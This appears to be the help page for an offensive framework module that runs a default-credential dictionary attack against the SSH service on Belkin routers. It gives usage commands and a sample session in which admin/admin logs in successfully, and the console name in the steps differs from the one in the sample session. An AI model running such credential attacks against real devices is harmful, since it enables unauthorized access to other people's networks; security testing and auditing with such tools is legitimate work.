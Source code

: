 ## Description

Module performs dictionary attack with default credentials against Belkin Router SSH service.
If valid credentials are found, they are displayed to the user.

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use creds/routers/belkin/ssh_default_creds`
  3. Do: `set target [TargetIP]`
  4. Do: `run`
  5. If valid credentials are found, they are displayed to the user.

## Scenarios

```
rsf > use creds/routers/belkin/ssh_default_creds
rsf (Belkin Router Default SSH Creds) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (Belkin Router Default SSH Creds) > run
[*] Running module...
[*] Target exposes SSH service
[*] Starting default credentials attack against SSH service
[*] thread-0 thread is starting...
[-] SSH Authentication Failed - Username: 'admin' Password: '12345'
[-] SSH Authentication Failed - Username: 'admin' Password: '123456'
[-] SSH Authentication Failed - Username: 'Admin' Password: '12345'
[-] SSH Authentication Failed - Username: 'Admin' Password: '123456'
[+] SSH Authentication Successful - Username: 'admin' Password: 'admin'
[*] thread-0 thread is terminated.
[*] Elapsed time: 2.3932292461395264 seconds
[+] Credentials found!

   Target          Port     Service     Username     Password
   ------          ----     -------     --------     --------
   192.168.1.1     22       ssh         admin        admin 

```
